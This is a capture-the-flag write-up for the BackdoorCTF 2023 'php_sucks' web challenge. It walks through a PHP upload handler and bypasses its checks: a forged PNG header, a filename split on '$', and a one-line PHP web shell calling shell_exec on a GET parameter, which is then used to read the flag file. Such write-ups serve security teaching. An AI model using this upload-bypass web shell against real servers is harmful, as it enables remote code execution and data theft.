



# BackdoorCTF 2023

## Web/php_sucks

## Challenge Overview

Description: I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it. 

Author: j4ck4l :>)



We have been given a [website](http://35.222.114.240:8002/chal/upload.php). We can see a simple upload form.

Let's try to upload a text file. And the server responds with `File size should be less than 200KB, and only png, jpeg, and jpg are alloweded`



Hmm so to understand the functionality more let's see the source code

The code is obfuscated and in a single line, let's use an online beautifier and we get the below source code

```php
<?php 
$allowedExtensions = ["jpg", "jpeg", "png"];
$errorMsg = "";
if (
    $_SERVER["REQUEST_METHOD"] === "POST" &&
    isset($_FILES["file"]) &&
    isset($_POST["name"])
) {
    $userName = $_POST["name"];
    $uploadDir = "uploaded/" . generateHashedDirectory($userName) . "/";
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0750, true);
    }
    $uploadedFile = $_FILES["file"];
    $fileName = $uploadedFile["name"];
    $fileTmpName = $uploadedFile["tmp_name"];
    $fileError = $uploadedFile["error"];
    $fileSize = $uploadedFile["size"];
    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
    if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000) {
        $fileName = urldecode($fileName);
        $fileInfo = finfo_open(FILEINFO_MIME_TYPE);
        $fileMimeType = finfo_file($fileInfo, $fileTmpName);
        finfo_close($fileInfo);
        $allowedMimeTypes = ["image/jpeg", "image/jpg", "image/png"];
        $fileName = strtok($fileName, chr(7841151584512418084));
        if (in_array($fileMimeType, $allowedMimeTypes)) {
            if ($fileError === UPLOAD_ERR_OK) {
                if (move_uploaded_file($fileTmpName, $uploadDir . $fileName)) {
                    chmod($uploadDir . $fileName, 0440);
                    echo "File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
                } else {
                    $errorMsg = "Error moving the uploaded file.";
                }
            } else {
                $errorMsg = "File upload failed with error code: $fileError";
            }
        } else {
            $errorMsg = "Don't try to fool me, this is not a png file";
        }
    } else {
        $errorMsg =
            "File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
    }
}
function generateHashedDirectory($userName)
{
    $randomSalt = bin2hex(random_bytes(16));
    $hashedDirectory = hash("sha256", $userName . $randomSalt);
    return $hashedDirectory;
} ?>
```


## Vulnerability Identification

Okay so let's analyse it block by block.

It first asks for a file and then it checks the file extension using 
```php
$fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
 if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000)
 ....... continued
```
so if the extension is `jpg, jpeg, png` and the file size is less than 200kb it will try to execute further instructions.

Okay then if you pass the extension check we have another check that is the MIME type check. So if you try to fool the server by uploading a file like `exploit.php.png` but the file type is actually a `php` then the server will give you and error --> `Don't try to fool me, this is not a png file`.


Okay so let's try to upload a file with the header `png/jpeg/jpg` 

We can do it with a file using `xxd -r -p -o 0 <(echo 8950 4e47 0d0a 1a0a 0000 000d 4948 4452) exploit.php.png`

So if you check the file type now it will bypass the MIME check.

But the problem is if it is uploaded it will be uploaded as exploit.php.png so an image will open so it is not helpful to solve the challenge

## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **PNG**. And then we will inject some php code to exploit the server.

We will name this file as `exploit.php%00.png`. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

But here is a twist.

Have a look at this line of code 

```php
$fileName = strtok($fileName, chr(7841151584512418084));
```

if you use php interactive shell you can see the `chr(7841151584512418084)` 

```
php > echo chr(7841151584512418084);
$
php > echo urlencode(chr(7841151584512418084));
%24
```
so the file name will be split by $.

So to exploit this we will create a file `exploit.php%24.png` or `exploit.php$.png` with header of png and content as 

```php
�PNG
^Z
^@^@^@^MIHDR<?php if(isset($_GET['cmd'])) { echo shell_exec($_GET['cmd']); } ?>
```

## Obtaining the Flag
So we will upload the file and the file name which will be uploaded will be `exploit.php` and when we open the file . BOOM we got the shell

let's do rce now and list the files two directories back we get the name of flag file as `s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

and now `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt` to read the file.

 

Flag: **flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}**

Thank You
